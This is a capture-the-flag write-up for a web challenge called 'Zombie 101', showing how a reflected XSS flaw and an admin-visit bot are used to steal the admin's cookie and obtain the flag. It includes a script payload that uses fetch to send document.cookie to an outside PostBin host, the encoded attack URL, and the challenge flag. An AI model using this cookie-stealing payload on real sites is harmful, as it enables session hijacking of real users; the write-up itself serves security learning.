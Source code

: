 # Zombie 101

### Category: Web
### Points: 100

In the challenge description we are given a link to the following website:

![website](zombie.png)

It's also noted in the description that this challenge is a classic "steal the admin's cookie" challenge.

Given two input boxes for this challenge, I immediately test for a XSS vulnerability
in the first box and unsurprisingly, I get a pop-up with the age-old:
```
<script>alert(0)</script>
```
The second form allows you to pass a URL to the 'admin' bot, and it will visit that page. 
The source code is given to us and we can see the restrictions of the URL we pass in:

```
const validateRequest = (req) => {
    const url = req.query.url
    if (!url) {
        return 'Hmmm, not seeing a URL. Please try again.'
    }

    let parsedURL
    try {
        parsedURL = new URL(url)
    }
    catch (e) {
        return 'Something is wrong with your url: ' + escape(e.message)
    }

    if (parsedURL.protocol !== 'http:' && parsedURL.protocol !== 'https:') {
        return 'Our admin is picky. Please provide a url with the http or https protocol.'
    }

    if (parsedURL.hostname !== req.hostname) {
        return `Please provide a url with a hostname of: ${escape(req.hostname)}  Hmmm, I guess that will restrict the submissions. TODO: Remove this restriction before the admin notices and we all get fired.`
    }

    return null
}
```

We can craft a simple exploit to steal the admin's cookie and redirect it to our own server:

```
<script>
fetch('https://www.toptal.com/developers/postbin/xxxx-xxxx?cookie='+document.cookie,{headers: {'Accept': ''}})
   .then(response => response.text())
   .then(text => console.log(text))
</script>
```

After injecting this payload into the first input box, we get a URL to give to the zombie page for the admin to check out.

Submitting this URL:

```
# https://zombie-101-tlejfksioa-ul.a.run.app/visit?url=https%3A%2F%2Fzombie-101-tlejfksioa-ul.a.run.app%2Fzombie%3Fshow%3D%253Cscript%253Efetch%2528%2527https%253A%252F%252Fwww.toptal.com%252Fdevelopers%252Fpostbin%xxxx-xxxx%253Fcookie%253D%2B%2527%252Bdocument.cookie%252C%257Bheaders%253A%2B%257B%2527Accept%2527%253A%2B%2527%2527%257D%257D%2529%2B.then%2528response%2B%253D%253E%2Bresponse.text%2528%2529%2529%2B.then%2528text%2B%253D%253E%2Bconsole.log%2528text%2529%2529%253C%252Fscript%253E
```

Gives us the flag in the response from PostBin:

cookie: flag=wctf{c14551c-4dm1n-807-ch41-n1c3-j08-93261}

